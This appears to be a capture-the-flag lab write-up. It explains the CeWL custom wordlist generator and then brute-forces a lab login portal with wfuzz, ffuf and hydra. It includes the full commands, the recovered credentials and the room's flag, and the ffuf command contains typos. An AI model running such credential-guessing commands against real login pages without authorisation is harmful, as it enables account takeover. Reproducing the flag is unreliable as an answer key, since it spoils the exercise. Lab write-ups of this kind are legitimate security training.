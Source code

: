 ![Alt text](image.png)

# Baby, it's CeWLd outside
#Brute-Forcing

After a thorough investigation, the security team discovered that a notorious individual named McGreedy, known for his dealings in the dark web, had sold the company's credentials. This sale paved the way for a random hacker from the dark web to exploit the portal. The logs point to a brute-force attack. Normally, brute-forcing takes a long time. But in this case, the hacker gained access with only a few tries. It seems that the attacker had a customised wordlist. Perhaps they used a custom wordlist generator like CeWL. Let's try to test it out ourselves!

## CeWL

CeWL (pronounced "cool") is a custom word list generator tool that spiders websites to create word lists based on the site's content. Spidering, in the context of web security and penetration testing, refers to the process of automatically navigating and cataloguing a website's content, often to retrieve the site structure, content, and other relevant details. This capability makes CeWL especially valuable to penetration testers aiming to brute-force login pages or uncover hidden directories using organisation-specific terminology.

CeWL is a wordlist generator that is unique compared to other tools available. While many tools rely on pre-defined lists or common dictionary attacks, CeWL creates custom wordlists based on web page content. Here's why CeWL stands out:

1. `Target-specific wordlists:` CeWL crafts wordlists specifically from the content of a targeted website. This means that the generated list is inherently tailored to the vocabulary and terminology used on that site. Such custom lists can increase the efficiency of brute-forcing tasks.
2. `Depth of search:` CeWL can spider a website to a specified depth, thereby extracting words from not just one page but also from linked pages up to the set depth.
3. `Customisable outputs:` CeWL provides various options to fine-tune the wordlist, such as setting a minimum word length, removing numbers, and including meta tags. This level of customisation can be advantageous for targeting specific types of credentials or vulnerabilities.
4. `Built-in features:`While its primary purpose is wordlist generation, CeWL includes functionalities such as username enumeration from author meta tags and email extraction.
5. `Efficiency:` Given its customisability, CeWL can often generate shorter but more relevant word lists than generic ones, making password attacks quicker and more precise.
6. `Integration with other tools:` Being command-line based, CeWL can be integrated seamlessly into automated workflows, and its outputs can be directly fed into other cyber security tools.
7. `Actively maintained:` CeWL is actively maintained and updated. This means it stays relevant and compatible with contemporary security needs and challenges.

Customising Commands
- -d: spidering depth 
- -m and -x: minimum and maximum word length
- -a: handling Authentication
- --extension: handling custom extensions
- --offsite: follow external links

## Brute-force the login portal using **_wfuzz_**
```
wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" 
-u http://10.10.132.80/login.php -d "username=FUZZ&password=FUZ2Z"
```

In the command above:<br>
-z file,usernames.txt loads the usernames list.<br>
-z file,passwords.txt uses the password list generated by CeWL.<br>
--hs "Please enter the correct credentials" hides responses containing the string "Please enter the correct credentials", which is the message displayed for wrong login attempts.<br>
-u specifies the target URL.<br>
-d "username=FUZZ&password=FUZ2Z" provides the POST data format where FUZZ will be replaced by usernames and FUZ2Z by passwords.<br>

```
UserID: isaias
Password: Happiness
Flag: THM{m3rrY4nt4rct1crAft$}
```

## Other Methods:

### fuff
```
ffuf -s -w usernames.txt:USER -w passwords.txt:PASS -u http://10.10.106.165/loqin.php -d "username=USER&password-PASS" 
-H "Content-Type: application/x-www-form-urlencoded" -fr "Please enter the correct credentials"
```

### hydra
```
hydra -L usernames.txt -P passwords.txt http-post-form://10.10.106.165/login.php:"username=^USER^&password=^PASS^"
:"Please enter the correct credentials"
```

### Turbo Intruder

### Conclusion
AntarctiCrafts' unexpected breach highlighted the power of specialised brute-force attacks. The swift and successful unauthorised access suggests the attacker likely employed a unique, context-specific wordlist, possibly curated using tools like CeWL. This tool can scan a company's public content to create a wordlist enriched with unique jargon and terminologies.


